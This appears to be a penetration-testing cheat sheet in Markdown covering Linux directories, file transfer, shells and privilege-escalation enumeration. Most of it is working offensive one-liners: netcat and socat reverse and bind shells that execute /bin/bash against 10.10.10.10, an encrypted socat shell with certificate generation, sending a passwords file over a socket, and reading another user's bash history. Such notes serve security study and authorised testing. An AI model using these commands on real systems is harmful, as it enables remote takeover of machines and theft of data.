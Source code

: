 # Linux 
- Important locations
  - /bin - have binaries (ls, pwd etc.)
  - /sbin - system programs (fdisk, sysctl, etc.)
  - /etc - config files
  - /tmp - temp files
  - /usr/bin - applications (nmap, etc.)
  - /usr/share - application support and data files

# File transfer
- `nc -nv 10.10.10.10 443 < nc.exe` `nc -nlvp 443 > nc.exe`
- socat `socat TCP4-LISTEN:443,fork file:passwords.txt` `socat TCP4:10.10.10.10:443 file:received.txt,create`

# Linux Shells
`python -c "import pty;pty.spawn('/bin/bash')";export TERM=xterm;stty raw -echo`

- netcat(nc)
  - Reverse shell `nc -nv 10.10.10.10 443 -e /bin/bash` 
  - Bind shell `nc -nvlp 443 -e /bin/bash`
- socat
  - Reverse shell `socat TCP4:10.10.10.10:443 EXEC:/bin/bash`
  - Listener `socat -d -d TCP4-LISTEN:443 STDOUT`
  - Bind shell `socat TCP-LISTEN:443 EXEC:/bin/bash`
  - Connect `socat - TCP4:10.10.10.10:443`
  - Encrypted shell
    - Generate cert `openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt;cat bind_shell.key bind_shell.crt > bind_shell.pem`
    - Bind shell `socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`
    - Connect `socat - OPENSSL:10.10.10.10:443,verify=0`

# Linux privilege escalation
- Environment variables
  - echo $PATH, $PWD, $HOME
  - `env` `printenv`
- Running process `ps -ef | grep root` `ps -fC apache2`
- Bash history `history` `cat /home/USER/.bash_history`
- Startup enabled services `systemctl --all list-unit-files | grep enabled`
